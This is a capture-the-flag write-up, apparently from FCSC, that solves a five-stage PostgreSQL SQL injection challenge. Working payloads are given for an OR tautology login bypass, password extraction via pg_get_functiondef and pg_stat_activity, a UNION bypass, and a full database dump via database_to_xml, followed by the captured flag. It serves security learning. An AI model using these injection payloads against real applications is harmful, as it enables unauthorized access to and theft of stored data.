 We need to find 5 SQL injections to get the flag.
I used this playground: https://onecompiler.com/postgresql
# Admin
Admin was simple, same as Admin 1-2:
`' OR '1'='1` worked.

# Super Admin
We can select the function code, use substring to get only the password from the function code, and then concat it to the function.

```sql
' || ( SELECT SUBSTRING(pg_get_functiondef((SELECT oid FROM pg_proc    WHERE proname = 'check_password')), 178,32))) --
```
# Hyper Admin
We can get the query in memory, get our running query, and extract the password from there
```sql
' || substring( (SELECT query FROM pg_stat_activity where query != '' limit 1 offset 2), 9, 32) || '
```

# Turbo admin
The code don't actually check if one line is equal to the password, it instead check if both columns are equal. We just have to use a union with 2 same cols.
```sql
' UNION SELECT '1', '1' LIMIT 1-- -
```

# Flag

First i tried this:
```sql
SELECT table_name FROM information_schema.tables WHERE table_name LIKE 'table_%' LIMIT 1;
SELECT column_name FROM information_schema.columns WHERE table_name LIKE 'table_%' AND column_name LIKE 'col_%';
```

But you can't use table names dynamically.

So i used this payload:
```sql
' || SUBSTRING('' || database_to_xml(true,true,''), 168, 32) -- -
```

This is dumping the database to xml, and the retrieving our token.

I found the offset (168) by using Burp Intruder, and by iterating over all values.

And flagged :)
`FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}`

